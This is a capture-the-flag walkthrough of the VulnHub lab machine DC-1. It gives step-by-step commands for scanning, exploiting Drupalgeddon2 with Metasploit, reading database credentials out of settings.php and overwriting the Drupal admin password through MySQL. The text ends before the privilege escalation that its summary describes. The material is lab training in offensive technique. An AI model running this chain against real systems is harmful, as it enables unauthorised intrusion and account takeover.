# DC-1 — VulnHub Walkthrough & Penetration Test Documentation

**Target machine:** DC-1 (VulnHub)\
**Objective:** Gain root access and recover all five flags.\
**Environment:** VirtualBox host-only / NAT network, Kali Linux attacker.\
**Author:** Jean Carlo Celeste\
**Date:** 2026-10-20

---

## 1. Executive Summary

DC-1 is a deliberately vulnerable machine running a **Drupal 7** CMS on Debian. I fully compromised it from an unauthenticated network position all the way to **root** by chaining the following:

1. **Network/service enumeration** (netdiscover, nmap) — I identified a Drupal 7 web application.
2. **Drupalgeddon2 (CVE-2018-7600)** — I used this unauthenticated remote code execution flaw to get a `www-data` shell.
3. **Credential disclosure** — I found database credentials in plaintext in `settings.php`.
4. **Database compromise** — I logged into the local MySQL instance and overwrote the Drupal admin password hash.
5. **Application takeover** — I logged into the Drupal admin panel.
6. **Privilege escalation** — I abused an **SUID `find` binary** to obtain a root shell.

**Result:** Full root compromise. I recovered all five flags.

---

## 2. Target & Scope

| Item | Value |
|---|---|
| Target IP | `10.0.2.21` |
| Attacker IP | `10.0.2.15` |
| OS (detected) | Linux 3.2–3.16 (Debian) |
| Primary service | Apache 2.2.22 / Drupal 7 |

---

## 3. Reconnaissance

### 3.1 Host discovery — netdiscover

I used `netdiscover` to identify live hosts on the local subnet and locate the target's IP address.

```bash
sudo netdiscover
```

I identified the target at **10.0.2.21** (VirtualBox NIC, MAC `08:00:27:0E:D5:BC`).

*Screenshot:* 

### 3.2 Port & service scan — nmap

I ran a full TCP port scan with service/version detection and OS fingerprinting:

```bash
sudo nmap --privileged -A -p- -oN nmap.txt 10.0.2.21
```

**Key results:**

| Port | State | Service | Version |
|---|---|---|---|
| 22/tcp | open | ssh | OpenSSH 6.0p1 Debian 4+deb7u7 |
| 80/tcp | open | http | Apache httpd 2.2.22 (Debian) — **Drupal 7** |
| 111/tcp | open | rpcbind | 2-4 (RPC #100000) |
| 36815/tcp | open | status | 1 (RPC #100024) |

What stood out from the scan:
- `http-generator: Drupal 7 (http://drupal.org)` — the web app is **Drupal 7**.
- `http-robots.txt` exposed 36 disallowed entries (CHANGELOG.txt, install.php, etc.).
- **MySQL (3306) was NOT listed** — I explain why in [7.3](#73-why-nmap-didnt-show-mysql-3306).

*Screenshot:* 

---

## 4. Web Enumeration

### 4.1 Browsing the site

I visited `http://10.0.2.21/` — a default Drupal site with a login/registration block on the homepage.

*Screenshots:* 

 

I tried creating an account and login with that but account creation needs approval.

 




### 4.2 Confirming the CMS version

I viewed the page source (`view-source:http://10.0.2.21/`). The generator meta tag confirmed the CMS:

```html
<meta name="Generator" content="Drupal 7 (http://drupal.org)" />
```

*Screenshot:* 



### 4.3 Attempting to pin the minor version

I tried `CHANGELOG.txt` (listed in robots.txt) to get the exact minor version:

```bash
curl -s http://10.0.2.21/CHANGELOG.txt | head -n 20
```

This returned **404 Not Found** — the file had been removed/blocked. I couldn't confirm the exact minor version this way, but **major version 7 was enough** to identify the applicable exploit (Drupalgeddon2 affects all Drupal 7.x < 7.58 regardless of minor version).

---

## 5. Vulnerability Research & Exploit Selection

### 5.1 My methodology

I researched the vulnerability **web-first, then searchsploit**:
- I used **web research** to understand *what* the vulnerability is and *why* it works (CVE details, affected version ranges, mechanism).
- I then used **searchsploit** to locate ready-to-use local exploit code once I understood the target vulnerability.

The headline vulnerability for Drupal 7 is **"Drupalgeddon"**, which spans several CVEs:
- **CVE-2014-3704** — "Drupalgeddon" pre-auth SQL injection (Drupal 7.0–7.31).
- **CVE-2018-7600** — "Drupalgeddon2" pre-auth RCE (< 7.58 / < 8.x).
- **CVE-2018-7602** — "Drupalgeddon3" authenticated RCE.

### 5.2 Searching for local exploits

```bash
searchsploit drupal
```

*Screenshot:*


Seeing that a Drupalgeddon2 entry was tagged `(Metasploit)`, I then confirmed the matching module existed inside Metasploit using its own search:

```bash
msfconsole
search drupal
```



### 5.3 How I triaged the results

I filtered the candidate exploits against four criteria:

1. **Version applicability** — it must cover Drupal 7, so I focused on the Drupalgeddon2 entries whose range covers 7.x (these also list the 8.x branches) and discarded the 4.x/5.x/6.x/10.x/11.x entries.
2. **Impact** — I prioritised **RCE** (code execution) over SQLi, and discarded DoS / XSS / info-disclosure entries.
3. **Authentication requirement** — I preferred **unauthenticated** (pre-auth) exploits, so I discarded the Drupalgeddon3 `(Authenticated)` entries (`44557.rb`, `44542.txt`).
4. **Reliability / delivery** — I favoured a maintained Metasploit module over a standalone script for the first foothold.

**My selected exploit:** **Drupalgeddon2 — CVE-2018-7600**, `Drupal < 7.58 ... Remote Code Execution`.
- My reasoning: it's unauthenticated, gives direct RCE, applies to all Drupal 7.x < 7.58, and is available as a well-maintained Metasploit module.

---

## 6. Exploitation — Initial Access (Drupalgeddon2)

I used the Metasploit module for a reliable, repeatable foothold. Based on the metasploit result, I use module 2 (exploit/unix/webapp/drupal_drupalgeddon2)

```bash
search drupal
use 2 # OR 'use exploit/unix/webapp/drupal_drupalgeddon2'
show options
set RHOSTS 10.0.2.21
show options
exploit
```







Alright, we gained a meterpreter shell

### 6.1 Post-exploitation shell

Meterpreter uses its own command set, so native Linux commands like `whoami` weren't recognised. I confirmed my identity and dropped to a system shell:

```
meterpreter > getuid        # Server username: www-data
meterpreter > shell
```

I upgraded to a proper interactive TTY (Python 2 is present on the box):

```bash
which python # checks if python is available; also check for python3
python -c 'import pty; pty.spawn("/bin/bash")'
whoami      # www-data
```



---

## 7. Flags 1 & 2 — Looting the Web Root

### 7.1 flag1

I found this in the Drupal web root (`/var/www`):

```bash
cat flag1.txt
```

> **flag1:** `Every good CMS needs a config file - and so do you.`




*My read:* flag1 points toward configuration files — specifically Drupal's `settings.php`.

### 7.2 flag2 — database credentials

I checked the /var/www/sites to search for the config files.



I looked at each file and the one that is relevant is ./default/settings.php.

The Drupal configuration file contains **flag2** and the **database credentials in plaintext**:

```bash
cat /var/www/sites/default/settings.php
```



> **flag2:** `Brute force and dictionary attacks aren't the only ways to gain access (and you WILL need access). What can you do with these credentials?`
> *(Theme: brute force / dictionary attacks are not the only way to gain access — valid credentials are already stored here.)*

**My interpretation:** flag2 indicates that brute force is unnecessary because valid database credentials sit in plaintext in `settings.php`. I used these to authenticate directly to the local MySQL instance.

Credentials I recovered:
- **DB name** `drupaldb`
- **DB user:** `dbuser`
- **DB pass:** `R0ck3t`

### 7.3 Why nmap didn't show MySQL (3306)

MySQL was running but **bound to the loopback interface (`127.0.0.1`)**, not the external network interface. That's why my external nmap scan couldn't see it — the service is only reachable from *processes on the host itself*. After I gained a shell, `localhost:3306` became reachable.

I confirmed this from the shell:
```bash
netstat -tlnp | grep 3306     # shows 127.0.0.1:3306
```



> **Lesson I took from this:** Internal enumeration reveals attack surface that external scanning cannot. Services bound to loopback are invisible remotely but accessible once I have a foothold.

---

## 8. Database Compromise & Application Takeover

### 8.1 Logging into MySQL

```bash
mysql -u dbuser -p
# when prompted, put the password obtained 'R0ck3t'
```



I enumerated the database and the `users` table (where Drupal stores accounts and password hashes):

```sql
use drupaldb;
show tables;
show columns from users;
select uid, name, pass, mail from users;
```

The `admin` account (uid 1) password is stored as a salted Drupal 7 (`$S$...` / phpass) hash — not plaintext.







### 8.2 My decision: overwrite vs. crack

| Option | My verdict |
|---|---|
| **Crack the hash** (`john --format=drupal7` / `hashcat -m 7900`) | I tried this but it's very slow so I changed my approach. |
| **Overwrite the hash**  | **I chose this** — since I already had the write access and the hashing utility is also present. |

### 8.3 Discovering and using the password hashing script

While enumerating the Drupal installation, I discovered that Drupal ships with its own password hashing utility, `password-hash.sh`, located in the `scripts/` directory of the web root:

```bash
ls -la /var/www/scripts
# ... password-hash.sh
```



This was exactly what I needed — it produces a correctly-formatted `$S$` hash that Drupal will accept, so I could generate a replacement for the admin password instead of cracking the existing one.

The script uses **relative include paths**, so I had to run it from the **Drupal web root**, not from inside `scripts/`:

```bash
# WRONG — this failed with "failed to open stream: includes/password.inc"
cd /var/www/scripts && php password-hash.sh 'newpass123'

# CORRECT — run from the Drupal root so includes/ resolves
cd /var/www
php scripts/password-hash.sh 'newpass123'
```

This produced a valid hash:
```
$S$DcHn6a6shHjwORJxpFK3ILuVP2ZzlZgWl61qm6.8h8hdUf9bcCBB
```



### 8.4 Overwriting the admin password

```sql
update users set pass='$S$DcHn6a6shHjwORJxpFK3ILuVP2ZzlZgWl61qm6.8h8hdUf9bcCBB' where name='admin';
select name, pass from users where name='admin';   -- verify
```

> **My rationale:** Rather than cracking the admin hash, I leveraged my write access to the `users` table to overwrite it with a hash I generated using Drupal's own `scripts/password-hash.sh`, which gave me authenticated admin access to the CMS.

